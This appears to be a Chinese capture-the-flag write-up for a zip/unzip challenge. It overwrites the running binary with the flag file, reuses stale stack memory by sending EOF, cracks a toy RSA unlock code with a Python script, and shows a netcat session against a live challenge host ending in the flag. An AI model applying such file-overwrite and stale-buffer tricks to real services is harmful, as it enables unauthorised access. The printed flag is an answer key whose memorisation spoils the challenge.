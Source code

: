 本题涉及到zlib库的使用，主要是[compress和uncompress](https://blog.csdn.net/turingo/article/details/8148264)。这个程序的压缩和解压功能都是没有问题的（猜测来自这篇[文章](https://blog.csdn.net/turingo/article/details/8178510)），有问题的是程序逻辑。zip功能可以随便输入要压缩的文件和目标文件的文件名，如果我们输入等同于当前正在运行的程序的目标文件名会发生什么？答案显而易见，覆盖当前执行的程序,且同文件名覆盖不影响权限，不用担心权限问题。当时覆盖不会立刻出现问题，因为程序此时没有结束，而是挂载在proc目录下。然而下一次nc就会报错了。

思路如下：

1. zip文件，源文件flag，目标文件pwn（当前正在运行的程序名，应该在附件里）
2. unzip文件，源文件pwn，目标文件还是pwn。根据刚才zip的操作，pwn里面应该是flag，我们把这个解压出来的flag重命名为pwn，下一次nc时就会报错，把flag爆出来。

首先需要把unzip功能解锁。验证就是一个简单的rsa，直接贴代码。

```python
import gmpy2
def Decrypt(c,e,p,q):
  L=(p-1)*(q-1)
  d=gmpy2.invert(e,L)
  n=p*q
  m=gmpy2.powmod(c,d,n)
  flag=chr(m)
  print(flag)
if __name__ == '__main__':
  p =  17
  q =  13
  e =  7
  c =  149
  Decrypt(c,e,p,q)
  c=108
  Decrypt(c,e,p,q)
  c=24
  Decrypt(c,e,p,q)
```

得到CDK是HRP。离实施计划只有最后一个问题：unzip功能限制filename只能是1个字符。这里是一个小知识点：unzip和zip都被main所调用，并且使用的filename变量大小一致，利用子函数同栈内存大小相等的特点，在unzip的时候发送Ctrl+D(手动输入EOF)，程序就会结束输入，这样留在unzip的filename里的就是上次在zip输入的压缩后的文件名，也就是pwn。

```
$ nc 61.147.171.105 51389
1.zip
2.unzip
3.buy root
3
请输入CDK：
HRP

start…………………………
1.zip
2.unzip
3.buy root
1
file
flag
zip file
pwn
1.zip
2.unzip
3.buy root
2
zip file
^C
$ nc 61.147.171.105 51389
./pwn: 1: ./pwn: cyberpeace{7db8fa69e92fda113bbbaec947c669b0}: not found
```

## Flag
> cyberpeace{7db8fa69e92fda113bbbaec947c669b0}